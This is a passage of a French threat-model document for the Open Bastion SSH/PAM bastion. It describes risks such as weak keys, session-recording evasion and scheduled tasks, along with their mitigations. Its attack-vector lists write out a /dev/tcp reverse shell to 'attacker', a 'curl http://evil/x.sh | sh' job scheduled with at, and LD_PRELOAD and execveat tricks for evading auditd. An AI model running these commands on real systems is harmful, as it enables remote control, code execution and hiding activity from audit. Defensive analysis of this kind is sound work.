**Description :** Des utilisateurs peuvent générer des clés SSH utilisant des algorithmes cryptographiques faibles ou obsolètes (DSA, RSA-1024), et les faire signer par la CA LLNG. La politique de clés CA peut rejeter ces clés, mais un contrôle côté PAM offre une défense en profondeur.

**Vecteurs d'attaque :**

- Clés DSA (taille fixe 1024 bits, considérées obsolètes)
- Clés RSA de moins de 2048 bits
- Clés générées avec des algorithmes compromis

**Conséquence :** Un attaquant pourrait casser une clé faible et obtenir le certificat associé.

**Remédiation embarquée (IMPLÉMENTÉE) :**

Le module PAM peut appliquer une politique de restriction des types de clés SSH :

```ini
# /etc/open-bastion/openbastion.conf
ssh_key_policy_enabled = true
ssh_key_allowed_types = ed25519, sk-ed25519, sk-ecdsa
```

**Types de clés supportés :**

| Type         | Description             | Recommandation                  |
| ------------ | ----------------------- | ------------------------------- |
| `ed25519`    | Curve25519              | **Recommandé**                  |
| `sk-ed25519` | Ed25519 + FIDO2         | **Recommandé** (clé matérielle) |
| `sk-ecdsa`   | ECDSA + FIDO2           | **Recommandé** (clé matérielle) |
| `ecdsa`      | ECDSA P-256/P-384/P-521 | Acceptable                      |
| `rsa`        | RSA                     | Acceptable si ≥2048 bits        |
| `dsa`        | DSA                     | **À désactiver**                |

**Prérequis SSH :**

```bash
# /etc/ssh/sshd_config
ExposeAuthInfo yes   # Requis pour accéder au type de clé (déjà configuré)
```

|                 |           Score résiduel           |
| --------------- | :--------------------------------: |
| **Probabilité** | 1 (avec politique de clés activée) |
| **Impact**      |    3 (si clé faible compromise)    |

---

### R-S12 - Brute-force du cache d'autorisation offline

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   2   |
| **Impact**      |   2   |

**Description :** Lorsque le serveur LLNG est indisponible, le module PAM utilise un cache local des autorisations. Un attaquant avec accès local pourrait tenter de nombreux noms d'utilisateurs contre ce cache pour :

- Découvrir quels utilisateurs ont des entrées en cache (énumération)
- Tenter de se connecter en boucle jusqu'à trouver un utilisateur valide

**Vecteurs d'attaque :**

- Énumération d'utilisateurs via timing des réponses cache
- Brute-force offline sur le cache local
- Découverte de comptes autorisés sans contact avec LLNG

**Conséquence :** Un attaquant local pourrait identifier des comptes valides et potentiellement accéder au système pendant une panne LLNG.

**Remédiation embarquée (IMPLÉMENTÉE) :**

Le module PAM applique un rate limiting aux lookups de cache :

```ini
# /etc/open-bastion/openbastion.conf
cache_rate_limit_enabled = true
cache_rate_limit_max_attempts = 3       # Lockout après 3 tentatives
cache_rate_limit_lockout_sec = 60       # 1 minute initial
cache_rate_limit_max_lockout_sec = 3600 # 1 heure max
```

**Caractéristiques de protection :**

| Aspect                      | Mesure                                                          |
| --------------------------- | --------------------------------------------------------------- |
| **Comptage des tentatives** | TOUTES les tentatives (hits + misses) pour éviter l'énumération |
| **Rate limiting**           | Par utilisateur (attaque locale, pas par IP)                    |
| **Backoff exponentiel**     | 60s → 120s → 240s → ... → 3600s max                             |
| **Réinitialisation**        | Uniquement sur cache hit autorisé                               |
| **Persistance**             | État sur disque (survit aux redémarrages)                       |

|                 |              Score résiduel              |
| --------------- | :--------------------------------------: |
| **Probabilité** | 1 (avec rate limiting toutes tentatives) |
| **Impact**      |  2 (attaque locale limitée par lockout)  |

---

### R-S13 - Manipulation des groupes Unix via synchronisation LLNG

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   2   |
| **Impact**      |   3   |

**Description :** La fonctionnalité de synchronisation des groupes Unix permet à LLNG de gérer les groupes supplémentaires des utilisateurs sur les serveurs. Un attaquant pourrait exploiter cette fonctionnalité pour obtenir des privilèges supplémentaires.

**Vecteurs d'attaque :**

- Modification des groupes côté LLNG pour obtenir des accès (ex: groupe docker, wheel, admin)
- Attaque MITM sur la communication PAM-LLNG pour injecter des groupes
- Modification du cache offline pour ajouter des groupes non autorisés
- Symlink attack sur /etc/group pendant la modification

**Conséquence :** Un attaquant pourrait obtenir des privilèges supplémentaires sur le serveur (sudo, docker, accès à des ressources sensibles).

**Remédiation embarquée (IMPLÉMENTÉE) :**

| Mesure de sécurité             | Description                                                                   |
| ------------------------------ | ----------------------------------------------------------------------------- |
| **Groupes gérés explicites**   | Seuls les groupes listés dans `managed_groups` peuvent être modifiés          |
| **Liste blanche locale**       | `allowed_managed_groups` permet de restreindre davantage côté serveur         |
| **Validation des noms**        | Les noms de groupes sont validés (alphanum, tiret, underscore uniquement)     |
| **Utilisation outils système** | `groupadd`/`gpasswd` pour manipulation atomique de /etc/group et /etc/gshadow |
| **Cache chiffré**              | Les groupes sont stockés en cache avec AES-256-GCM                            |
| **Audit GROUP_SYNC**           | Toutes les modifications de groupes sont journalisées                         |

**Configuration LLNG (server-side) :**

```yaml
# Configuration LLNG Manager
pamAccessManagedGroups:
  production: "docker,developers,readonly"
  bastion: "operators,auditors"
  default: "" # Pas de sync par défaut
```

**Configuration locale (defense-in-depth) :**

```ini
# /etc/open-bastion/openbastion.conf
# Liste blanche locale optionnelle - restreint les groupes que LLNG peut gérer
allowed_managed_groups = docker,developers,readonly
```

**Principe de moindre privilège :**

- Ne pas inclure les groupes critiques (wheel, sudo, root, admin) dans `managed_groups`
- Créer des groupes dédiés pour les accès applicatifs (ex: app-users, db-readers)
- Utiliser des `server_group` différents pour segmenter les accès
- Configurer `allowed_managed_groups` sur les serveurs sensibles

|                 |                                Score résiduel                                |
| --------------- | :--------------------------------------------------------------------------: |
| **Probabilité** | 1 (avec managed_groups restrictifs, liste blanche locale et validation noms) |
| **Impact**      |                       2 (groupes critiques non gérés)                        |

---

### R-S14 - DoS auto-infligé sur IPs partagées (CrowdSec)

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   2   |
| **Impact**      |   3   |

**Description :** Lorsque plusieurs utilisateurs légitimes partagent une même IP publique (terminaison VPN d'entreprise, NAT carrier-grade, proxy), des échecs d'authentification normaux (fautes de frappe, sessions expirées) peuvent déclencher l'auto-ban CrowdSec, bloquant tous les utilisateurs derrière cette IP.

**Vecteurs de déclenchement :**

- Terminaison VPN d'entreprise (tous les employés partagent la même IP de sortie)
- NAT carrier-grade (opérateurs mobiles, certains FAI)
- Proxy d'entreprise centralisant le trafic
- Bastions partagés transmettant la même IP source

**Conséquence :** Déni de service auto-infligé pour un groupe entier d'utilisateurs légitimes pendant la durée du ban (4h par défaut).

**Remédiation embarquée (IMPLÉMENTÉE) :**

Le module PAM permet de configurer une whitelist d'IPs/CIDRs qui bypass complètement CrowdSec :

```ini
# /etc/open-bastion/openbastion.conf
crowdsec_whitelist = 10.0.0.0/8, 192.168.0.0/16, 203.0.113.10
```

Caractéristiques de la whitelist :

| Aspect                   | Comportement                                   |
| ------------------------ | ---------------------------------------------- |
| **Formats supportés**    | IPv4, IPv6, CIDR (ex: `10.0.0.0/8`, `::1`)     |
| **Vérification bouncer** | IPs whitelistées ne sont pas vérifiées         |
| **Report watcher**       | Échecs d'IPs whitelistées ne sont pas reportés |
| **Limite**               | Maximum 1000 entrées (protection DoS)          |

**Remédiation configuration :**

```ini
# /etc/open-bastion/openbastion.conf

# Option 1 : Whitelist des IPs de confiance (recommandé pour VPN)
crowdsec_whitelist = 203.0.113.0/24, 2001:db8::/32

# Option 2 : Mode warn au lieu de reject (log sans bloquer)
crowdsec_action = warn

# Option 3 : Augmenter le seuil avant ban
crowdsec_max_failures = 10
crowdsec_block_delay = 600  # 10 minutes au lieu de 3
```

**Bonnes pratiques pour les IPs whitelistées :**

1. Documenter toutes les IPs whitelistées et leur justification
2. Mettre en place un monitoring séparé pour ces IPs (SIEM, logs)
3. Réviser périodiquement la liste (IPs obsolètes, changements VPN)
4. Privilégier les IPs spécifiques aux larges CIDR quand possible

|                 |         Score résiduel          |
| --------------- | :-----------------------------: |
| **Probabilité** |    1 (avec whitelist active)    |
| **Impact**      | 2 (monitoring des IPs ignorées) |

---

### R-S15 - Certificat 1 an compromis sans KRL à jour

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   2   |
| **Impact**      |   3   |

**Description :** Si la KRL n'est pas régulièrement mise à jour sur les serveurs, un certificat révoqué côté LLNG reste accepté par `sshd`.

**Vecteurs de risque :**

- Cron de rafraîchissement KRL en panne ou mal configuré
- Serveur LLNG indisponible empêchant le téléchargement KRL
- Délai entre la révocation et la propagation (jusqu'à 30 min)
- Serveur SSH dont la directive `RevokedKeys` a été oubliée ou supprimée par inadvertance

> **Note d'architecture :** en fonctionnement nominal, un certificat révoqué ne doit **pas** permettre d'établir une connexion SSH — la KRL locale contrôlée par `sshd` reste le mécanisme principal de rejet, et son absence de mise à jour constitue déjà une alerte opérationnelle. Les facteurs atténuants ci-dessous ne remplacent pas la KRL ; ils constituent des couches de défense en profondeur pour le cas pathologique où un certificat révoqué franchirait malgré tout `sshd` (KRL absente, corrompue, ou significativement plus vieille que la fenêtre de révocation).

**Facteurs atténuants :**

1. **Binding fingerprint sur `/pam/authorize` (plugin PamAccess ≥ 0.1.16) :** à la phase `account` de PAM (donc à l'ouverture de chaque connexion SSH), `pam_openbastion` transmet l'empreinte SHA256 de la clef SSH utilisée. LLNG refuse l'autorisation (et donc l'ouverture de la session) si :
   - l'empreinte n'apparaît pas dans la session persistante (`_sshCerts`) de l'utilisateur (clef inconnue de LLNG), **ou**
   - le certificat correspondant est marqué `revoked_at` (révocation côté LLNG), **ou**
   - le certificat est expiré.

   Cette vérification est **indépendante** de la KRL locale : une révocation enregistrée dans LLNG est immédiatement effective sur toutes les connexions SSH, sans attendre la propagation de la KRL et indépendamment du fait que `sshd` la contrôle ou non.

2. **Binding fingerprint sur `/pam/verify` :** la même vérification est effectuée sur les tokens PAM (sudo, ré-auth), de sorte qu'aucun privilège ne peut être acquis depuis une session ouverte avec un certificat devenu invalide entre temps.
3. Contrôles d'autorisation classiques : `/pam/authorize` refuse aussi l'accès si le compte LLNG est désactivé ou ne vérifie pas la règle du `server_group`.

**Conséquence pour la cible maximale :** dès la publication de la révocation côté LLNG, toute nouvelle connexion SSH utilisant le certificat révoqué est refusée au niveau PAM `account` (phase de vérification de l'autorisation). La KRL reste le contrôle principal, mais un oubli, un retard de propagation ou une absence de `RevokedKeys` dans `sshd_config` n'ouvrent plus de fenêtre d'exploitation : LLNG rejette de toute façon la session.

**Remédiation :**

```ini
# Rafraîchissement KRL fréquent
# /etc/cron.d/open-bastion-krl
*/30 * * * * root curl -sf -o /etc/ssh/revoked_keys.tmp https://auth.example.com/ssh/revoked && mv /etc/ssh/revoked_keys.tmp /etc/ssh/revoked_keys

# Monitoring : alerter si KRL > 1h
*/15 * * * * root find /etc/ssh/revoked_keys -mmin +60 -exec echo "KRL stale" \;
```

|                 |                                       Score résiduel                                        |
| --------------- | :-----------------------------------------------------------------------------------------: |
| **Probabilité** |  1 (cron KRL + binding fingerprint `/pam/authorize` + `/pam/verify` comme triple défense)   |
| **Impact**      | 1 (ouverture SSH et sudo bloqués au niveau LLNG même avec KRL absente ou périmée côté sshd) |

---

### R-S16 - Escalade de privilèges sudo

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   1   |
| **Impact**      |   2   |

**Description :** Un attaquant ayant compromis une session SSH tente d'exécuter des commandes privilégiées via sudo.

**Remédiation intrinsèque à la cible de sécurité maximale :**

L'escalade sudo est bloquée par conception :

1. Le sudo exige un token LLNG frais (5-60 min de validité, usage unique)
2. L'obtention du token nécessite une authentification SSO (2FA si configuré)
3. Même un poste client compromis ne peut pas obtenir de token sans les credentials SSO de l'utilisateur

**Séparation des privilèges pour l'enregistrement de session :**

L'enregistrement de session utilise un wrapper setgid (`ob-session-recorder-wrapper`) appartenant au groupe `ob-sessions`. Le répertoire `/var/lib/open-bastion/sessions` a les permissions `1770` avec ce groupe. Cette séparation garantit que les utilisateurs ne peuvent **ni lire ni supprimer les enregistrements des autres utilisateurs** (isolation latérale). En revanche, l'utilisateur reste propriétaire de son propre sous-répertoire `2770 user:ob-sessions` et peut donc supprimer ses propres enregistrements — voir R-S18 ci-dessous pour le détail et les protections complémentaires (syslog `auth.info`, watch auditd).

|                 |                 Score résiduel                  |
| --------------- | :---------------------------------------------: |
| **Probabilité** |   1 (réauthentification SSO pour chaque sudo)   |
| **Impact**      | 2 (scope limité à ce que sudo_allowed autorise) |

---

### R-S17 - Verrouillage total (lockout) en cas d'indisponibilité prolongée du SSO

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   2   |
| **Impact**      |   4   |

**Description :** Si le serveur LLNG est indisponible de manière prolongée (au-delà du TTL du cache offline) et qu'aucun administrateur ne dispose d'un certificat SSH valide en cache, **plus personne ne peut se connecter** au serveur par SSH. En Mode E, le serveur n'accepte ni mot de passe (`AuthorizedKeysFile none`), ni clé SSH non signée par la CA — il n'existe donc aucun mécanisme SSH de secours natif.

**Conditions du lockout :**

1. LLNG indisponible (panne, réseau coupé, maintenance prolongée)
2. Cache d'autorisation offline expiré (`auth_cache_offline_ttl` dépassé)
3. Certificats SSH des administrateurs expirés ou révoqués (KRL)
4. Aucun compte de service configuré (`service-accounts.conf` vide ou absent)

**Vecteurs :**

- Panne LLNG prolongée (> 24h avec configuration par défaut)
- Panne réseau isolant le serveur du portail LLNG
- Incident combiné : panne LLNG + rotation de certificats récente (certificats courts)
- Erreur de configuration : cache offline désactivé ou TTL très court

**Conséquence :** Perte totale d'accès administratif au serveur. Seul un accès console hors-bande (KVM, IPMI, console hyperviseur type OVH/vSphere/Proxmox) permet le recouvrement. Si aucun accès console n'est disponible, le serveur est irrécupérable sans intervention physique.

**Remédiation opérationnelle :**

| Mesure                           | Description                                                                                                                                                                                                |
| -------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Compte de service de secours** | Le paquet bootstrap `open-bastion-linagora` pré-configure un compte `linagora` dans `service-accounts.conf` avec clé RSA et `sudo_allowed = true`, stockée en coffre-fort                                  |
| **Accès console via ttyS0**      | Le paquet bootstrap configure `/etc/securetty` avec `ttyS0` pour l'accès root via la console OVH/hors-bande. `PermitRootLogin no` dans sshd bloque l'accès root SSH, la console reste le filet de sécurité |
| **Cache offline suffisant**      | Configurer `auth_cache_offline_ttl` à une valeur couvrant la durée maximale d'indisponibilité LLNG tolérée                                                                                                 |

> **Automatisation bootstrap :** Le paquet `open-bastion-linagora` prend en charge la configuration initiale de `securetty`, du compte de service `linagora` et de `PermitRootLogin no`. Ces éléments n'ont pas besoin d'être configurés manuellement sur les déploiements utilisant ce paquet.

**Remédiation infrastructure :**

- LLNG en haute disponibilité (réduit la probabilité de panne prolongée)
- Plusieurs portails LLNG en failover
- Monitoring avec alerte quand le cache offline approche de l'expiration
- Redémarrer `nscd` après toute modification de la configuration NSS (`/etc/nsswitch.conf`) pour éviter les entrées négatives en cache qui bloqueraient la résolution des utilisateurs du bastion

**Procédure de recouvrement via console :**

1. Accéder à la console hors-bande du serveur (KVM, IPMI, console OVH via ttyS0)
2. Se connecter en root via la console (root login SSH est bloqué par `PermitRootLogin no`)
3. Option A — Utiliser le compte de service `linagora` pré-configuré :
   ```bash
   # Le compte linagora est déjà dans service-accounts.conf (paquet bootstrap)
   # Se connecter depuis un poste disposant de la clé de secours :
   ssh linagora@server
   ```
4. Option B — Ajouter un compte de service temporaire depuis la console root :
   ```bash
   # Ajouter une clé de recouvrement dans service-accounts.conf
   cat >> /etc/open-bastion/service-accounts.conf << 'EOF'
   [recovery]
   ssh_keys = ssh-ed25519 AAAA... recovery@emergency
   EOF
   ```
5. Option C — Désactiver temporairement le module PAM (dernier recours) :
   ```bash
   # Commenter la ligne pam_openbastion dans /etc/pam.d/sshd
   sed -i 's/^auth.*pam_openbastion/#&/' /etc/pam.d/sshd
   ```
6. Rétablir la configuration normale dès que LLNG est de nouveau disponible
7. Documenter l'incident et les actions prises (audit)

> **Attention :** L'option C désactive toute la sécurité Open Bastion. Elle ne doit être utilisée qu'en dernier recours et pour la durée la plus courte possible.

|                 |                         Score résiduel                          |
| --------------- | :-------------------------------------------------------------: |
| **Probabilité** |          1 (avec HA LLNG + compte de service secours)           |
| **Impact**      | 2 (avec procédure de recouvrement console documentée et testée) |

---

### R-S18 - Effacement des enregistrements de session par un utilisateur

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   2   |
| **Impact**      |   3   |

**Description :** Un utilisateur malveillant ou un attaquant ayant compromis une session SSH efface ou modifie les fichiers d'enregistrement de session (typescript, métadonnées) pour dissimuler ses actions. Le wrapper setgid crée le sous-répertoire utilisateur en mode `2770 user:ob-sessions` : **l'utilisateur en est propriétaire** et dispose donc des permissions `wx` sur ce sous-répertoire, ce qui lui permet de faire `unlink` de ses propres fichiers de session via `rm`. Le sticky bit du parent `/var/lib/open-bastion/sessions` (mode `1770 root:ob-sessions`) protège uniquement le sous-répertoire utilisateur lui-même contre la suppression, **pas les fichiers à l'intérieur**.

**Conditions de la menace :**

1. L'utilisateur a une session SSH active (authentifié par certificat + autorisé par PAM)
2. Le session recorder (`ForceCommand`) crée les fichiers dans un sous-répertoire dont l'utilisateur est propriétaire (`2770 user:ob-sessions`)
3. L'utilisateur a accès en écriture au sous-répertoire et est propriétaire des fichiers de session

**Vecteurs :**

- Suppression directe des fichiers de session (`rm`) depuis le shell
- Modification du contenu (troncature, réécriture) pour masquer des commandes
- Suppression des métadonnées JSON pour effacer les traces d'activité

**Conséquence :** Perte du replay visuel de la session. La timeline (start/end, identifiant utilisateur) reste cependant traçable via syslog `auth.info`, et l'événement d'effacement lui-même peut être tracé si la trace auditd primaire est activée.

**Remédiations en place :**

1. **Wrapper setgid `ob-session-recorder-wrapper`** : empêche l'utilisateur d'**accéder aux recordings d'autres utilisateurs**. C'est la propriété principale réellement obtenue par le mécanisme setgid : isolation latérale entre utilisateurs, et non immutabilité des fichiers de l'utilisateur courant. Cette propriété reste valable et utile.
2. **Sanitisation de l'environnement** (LD_PRELOAD, BASH_ENV, PATH durci) avant exec du script de session : empêche les vecteurs d'évasion via préchargement de bibliothèque.
3. **Syslog `auth.info`** : le session recorder émet à l'ouverture une ligne `Session <UUID> started for user <user> from <ip>` et à la clôture `Session <UUID> ended for user <user> (status: <status>)` (cf. `scripts/ob-session-recorder:200,383`). Ce journal est root-owned et indépendant des fichiers de recording — il n'est pas accessible en écriture à l'utilisateur. Même si l'utilisateur supprime ses fichiers de session, ces deux lignes conservent la trace de l'ouverture et de la fermeture de la session, suffisante pour l'imputation temporelle.
4. **Watch auditd `-w /var/lib/open-bastion/sessions/ -p wa`** (PR2 #113, opt-in via `--enable-audit-trace`) : trace tout `unlink`, `truncate` ou `rename` sur les fichiers de session, **même si l'effacement réussit**. L'événement d'effacement devient lui-même une preuve d'audit.

**Pistes non retenues :**

- **Démon collecteur privilégié** (fichiers root-owned via fd-passing sur socket Unix) : architecture la plus robuste mais introduit un nouveau service permanent et un canal IPC privilégié. Discutée en brainstorm initial mais écartée à ce stade.
- **Binaire setuid root** dédié à la création de fichiers root-owned : écarté en raison de la préférence projet pour ne pas multiplier les binaires setuid root sur le bastion.

Voir [R-S18 dans 99-risk-reduce.md](99-risk-reduce.md) pour les pistes d'amélioration permettant de redescendre P à 1 sans setuid.

|                 |                                       Score résiduel                                       |
| --------------- | :----------------------------------------------------------------------------------------: |
| **Probabilité** |                      2 (suppression triviale via `rm` reste possible)                      |
| **Impact**      | 1 (syslog `auth.info` + watches auditd préservent la timeline et l'événement d'effacement) |

---

### R-S19 - Évasion du containment de session (orphelin détaché)

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   3   |
| **Impact**      |   3   |

**Description :** Un utilisateur connecté SSH peut détacher un processus de l'enregistreur via `setsid`+`nohup` et redirection complète des descripteurs de fichiers (`</dev/null >/dev/null 2>&1`). Une fois détaché, le processus survit à un `kill` du recorder ou à la fin normale de session. Variante : reverse shell où l'attaquant pilote la machine depuis l'extérieur sans rien taper dans le pty enregistré.

**Conditions de la menace :**

1. L'utilisateur a une session SSH ouverte
2. Le recorder tourne avec le même UID que l'utilisateur (architecturalement nécessaire pour le pty)
3. `KillUserProcesses=no` (défaut sur de nombreuses distributions)

**Vecteurs :**

- `setsid nohup bash -c '<malicious>' </dev/null >/dev/null 2>&1 &` puis `pkill -KILL -u $UID script`
- Reverse shell : `setsid nohup bash -c 'bash -i </dev/tcp/attacker/4444 1>&0 2>&0' </dev/null >/dev/null 2>&1 &`
- Job en arrière-plan détaché qui survit à la déconnexion (sans même tuer le recorder)

**Conséquence :** Actions persistantes ou pilotées depuis l'extérieur sans qu'aucune trace pty ne soit capturée. Le replay de session ne reflète pas l'activité réelle de l'utilisateur sur le bastion.

**Remédiation implémentée — Containment cgroup (PR1 #112, opt-in via `--enable-hardening`) :**

- `KillUserProcesses=yes` dans `/etc/systemd/logind.conf.d/open-bastion.conf` : à la fin de la session SSH, `logind` tue tout le cgroup utilisateur, **y compris les processus détachés via `setsid`** (qui restent dans le même cgroup même si la session POSIX change). `setsid` ne crée pas un nouveau cgroup ; seul `unshare --cgroup` ou des privilèges `CAP_SYS_ADMIN` permettraient l'évasion cgroup, ce qui n'est pas accessible à un utilisateur non privilégié.
- Pre-flight refusant l'activation du hardening si un utilisateur non-root a `Linger=yes` (cf. R-S20 pour le canal `systemd-run --user --on-active=...`).
- Limite `nproc` (defense in depth contre fork-bomb pendant la session).

**Remédiation complémentaire — Trace primaire auditd (PR2 #113, opt-in via `--enable-audit-trace`) :**

- Règles `-S execve -S execveat` dans `/etc/audit/rules.d/open-bastion.rules` : chaque commande lancée par le processus détaché laisse une trace indépendante du recorder pty, attribuée à l'UID de l'utilisateur (champ `uid=` du record auditd).

|                 |                                  Score résiduel (PR1 + PR2 activées)                                   |
| --------------- | :----------------------------------------------------------------------------------------------------: |
| **Probabilité** | 1 (`KillUserProcesses=yes` ferme le canal d'évasion principal ; auditd ferme la trace de seconde main) |
| **Impact**      |            1 (orphelins tués à la déconnexion ; commandes tracées syscall-level par auditd)            |

> **Score résiduel si PR1 NON activée :** P=3, I=3 (zone jaune). Le hardening doit être documenté comme **fortement recommandé** sur tout déploiement bastion réel. Voir [doc/hardening.md](../hardening.md) pour les détails techniques (documentation technique en anglais).

---

### R-S20 - Action différée hors session (at, cron, systemd-run timer)

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   2   |
| **Impact**      |   3   |

**Description :** Un utilisateur soumet une commande au planificateur du système (`at`, `crontab`, ou `systemd-run --user --on-active=...` si linger activé). La commande s'exécute **après** la déconnexion, donc hors session SSH, hors enregistrement pty, et hors cgroup affecté par `KillUserProcesses=yes` (R-S19). Le containment cgroup est inopérant contre ce vecteur car le travail planifié est démarré par un processus système (atd, cron, systemd-user manager) dans son propre cgroup.

**Conditions de la menace :**

1. `at` ou `cron` autorisent les non-root (défaut sur Debian)
2. `atd` est actif
3. (Variante systemd-run timer) l'utilisateur a `Linger=yes`

**Vecteurs :**

- `echo 'curl http://evil/x.sh | sh' | at now + 1 hour`
- `crontab -e` puis `*/5 * * * * exfil_data.sh`
- `loginctl enable-linger; systemd-run --user --on-active=10min /tmp/x.sh` (si linger autorisé)

**Conséquence :** Action différée non tracée par le recorder, persistant après déconnexion. Si l'attaquant a planifié sa commande puis s'est déconnecté, plus rien dans le pty ne le rattache à l'exécution effective. L'imputation reste possible uniquement via les traces du planificateur et, si activé, via auditd.

**Remédiation implémentée — Désactivation des planificateurs utilisateur (PR1 #112, opt-in via `--enable-hardening`) :**

- `/etc/at.allow` vide (root only) + `systemctl mask atd` : `at(1)` est désactivé pour les non-root et le démon `atd` ne tourne plus.
- `/etc/cron.allow` root-only : `crontab(1)` refuse les non-root au moment de l'édition. `cron.service` reste actif parce que `/etc/cron.d/open-bastion-krl` (utilisé par le mode max-security pour le rafraîchissement de la KRL) requiert un démon cron en service. `cron.allow` empêche les utilisateurs de soumettre leurs propres crontabs ; les fichiers déposés dans `/etc/cron.d/` restent root-only par construction.
- Pre-flight bloquant : `setup_hardening` **refuse de s'exécuter** si un utilisateur non-root a `Linger=yes`. L'administrateur doit faire `loginctl disable-linger <user>` avant. Cette protection ferme le canal `systemd-run --user --on-active=...`.

**Remédiation complémentaire — Trace primaire auditd (PR2 #113) :**

Au moment de l'exécution effective de la commande planifiée (si la planification est passée à travers les protections ci-dessus), auditd la capture via `-S execve -S execveat`. L'événement est attribué au démon planificateur (PID, parent, uid effectif) et reste corrélable.

**Limite résiduelle documentée :** Un crontab pré-existant déposé dans `/var/spool/cron/crontabs/<user>` **avant** l'activation du hardening n'est pas purgé par `setup_hardening`. `cron` lit le spool indépendamment de `cron.allow` (qui ne contrôle que `crontab(1)` au moment de l'édition). Voir [99-risk-reduce.md](99-risk-reduce.md) pour la piste d'amélioration (purge des crontabs pré-existants à l'activation du hardening).

|                 |                                  Score résiduel (PR1 activée)                                  |
| --------------- | :--------------------------------------------------------------------------------------------: |
| **Probabilité** |            1 (at masqué, cron en allow-list root, linger refusé par le pre-flight)             |
| **Impact**      | 2 (limite documentée : crontab pré-existant non purgé ; auditd trace tout de même l'exécution) |

> **Score résiduel si PR1 NON activée :** P=2, I=3 (zone jaune). Voir [doc/hardening.md](../hardening.md) pour les détails techniques (documentation technique en anglais).

---

### R-S21 - Action non capturée par l'enregistreur sans tuer le recorder

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   2   |
| **Impact**      |   3   |

**Description :** Même avec le recorder actif et la session ouverte, certaines actions ne passent pas par le pty et ne sont donc pas capturées par `script(1)`. Cas typiques :

- I/O sur des descripteurs de fichiers redirigés (socket réseau, fichier, mémoire) qui contournent le pty
- Commandes lancées via `execveat` (syscall #322 sur x86_64) au lieu d'`execve` — non tracées par défaut par auditd si seul `execve` est dans les règles
- Exfiltration UDP via `sendto` sur socket non-connectée — non tracée par `connect()`
- Opérations `io_uring` qui contournent les syscalls classiques

Contrairement à R-S19 (recorder tué) et R-S20 (action différée), ici le recorder est vivant et la session est ouverte : c'est la **nature du syscall** qui rend l'action invisible au pty.

**Conditions de la menace :**

1. Recorder actif et fonctionnel (cf. R-S19 pour le cas où il est tué)
2. Utilisateur connaît la technique (informaticien expérimenté ou attaquant motivé)

**Vecteurs :**

- Petit programme C/Python qui appelle `syscall(SYS_execveat, ...)` pour spawner un shell hors trace `execve`
- Reverse shell où le pty enregistre seulement la commande de lancement, puis l'attaquant pilote depuis l'extérieur (la session continue mais le canal de pilotage est invisible)
- Exfiltration DNS via UDP `sendto` non-connecté
- `TIOCSTI` ioctl pour injecter de l'input dans le tty parent ou un autre tty appartenant au même utilisateur (mitigé par défaut sur Linux ≥ 6.2 via `dev.tty.legacy_tiocsti_restrict=1`, mais à vérifier sur les hosts plus anciens)
- `ptrace`/`PTRACE_ATTACH` sur un autre processus de l'utilisateur pour injecter du code dans un process non recordé (mitigé par défaut sur Debian/Ubuntu via `kernel.yama.ptrace_scope=1`, qui restreint `ptrace` au lien parent-enfant direct)
- `LD_PRELOAD` _à l'intérieur_ de la session (la sanitisation du wrapper ne couvre que le **lancement** du recorder, pas les commandes que l'utilisateur exécute ensuite). Exemple : `LD_PRELOAD=./evil.so /usr/bin/somecmd` pour intercepter ce que `somecmd` fait. Le pty enregistre le préfixe `LD_PRELOAD=…` mais pas les effets de la lib injectée.

**Conséquence :** Le recording pty ne reflète pas la totalité des actions de la session. Limite la valeur forensique du replay et l'imputation.

**Remédiation implémentée — Trace primaire auditd (PR2 #113, opt-in via `--enable-audit-trace`) :**

- Règles `-S execve -S execveat` : les **deux** syscalls sont couverts → `execveat` ne contourne plus la trace (correctif issu de la review sécurité de PR2 ; n'inclure qu'`execve` était insuffisant).
- Watch `-w /var/lib/open-bastion/sessions/ -p wa` : toute tentative de modifier ou supprimer un recording est tracée même si l'effacement réussit (cf. R-S18).
- `connect()` tracé pour les sockets connectées (TCP, sockets Unix connectées, UDP « connectées » — c'est-à-dire après un `connect(AF_INET, SOCK_DGRAM)`).
- Watches sur les fichiers sensibles (`/etc/passwd`, `/etc/shadow`, `/etc/group`, `/etc/sudoers`, `/etc/ssh/sshd_config`, `/etc/open-bastion/`) : toute modification est imputable au PID/UID/PPID qui l'a provoquée.

**Limites résiduelles documentées dans [doc/audit.md](../audit.md) (documentation technique en anglais) :**

- `sendto`/`sendmsg` UDP non-connectées non tracées par défaut (la volumétrie serait excessive). Extension opt-in documentée : ajouter `-S sendto -S sendmsg` à `/etc/audit/rules.d/open-bastion.rules`.
- `io_uring_enter` non tracé (rare en pratique). Mêmes considérations de volumétrie.
- Contenu des fichiers et des buffers réseau non capturé : auditd trace les **syscalls et leurs métadonnées** (uid, ppid, cwd, args), pas les données échangées.

|                 |                                          Score résiduel (PR2 activée)                                          |
| --------------- | :------------------------------------------------------------------------------------------------------------: |
| **Probabilité** |    1 (`execve`/`execveat` couverts, watches sur `/etc` et `sessions/`, `connect()` TCP/UDP-connect tracés)     |
| **Impact**      | 2 (`sendto` UDP non-connecté reste un canal d'exfil non tracé par défaut → DNS-tunnel possible mais documenté) |

> **Score résiduel si PR2 NON activée :** P=2, I=3 (zone jaune). L'enregistrement pty seul ne suffit pas comme preuve d'audit primaire : la trace auditd est **fortement recommandée** en complément. Voir [doc/audit.md](../audit.md) pour les détails techniques (documentation technique en anglais).

---

### R-S22 - Réutilisation d'un certificat vouché vers un autre backend (`target` non vérifié)

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   1   |
| **Impact**      |   2   |

**Description :** Le key-id du certificat éphémère porte `bastion=<id>;user=<u>;target=<hôte>`, mais `ob-ssh-principals` ne fait respecter que `bastion=<id>` (allowlist) et `user=<u>` — il **ne vérifie pas** `target=`. Un certificat émis pour `backendA` est donc techniquement accepté par `backendB` si `backendB` fait confiance à la même CA et liste le même bastion dans son `allowed_bastions`, pendant la fenêtre de validité (~120 s).

**Vecteurs d'attaque :**

- root sur le bastion réutilisant un certificat fraîchement émis (dans le tmpfs, avant effacement) pour rebondir vers un autre backend de la même zone
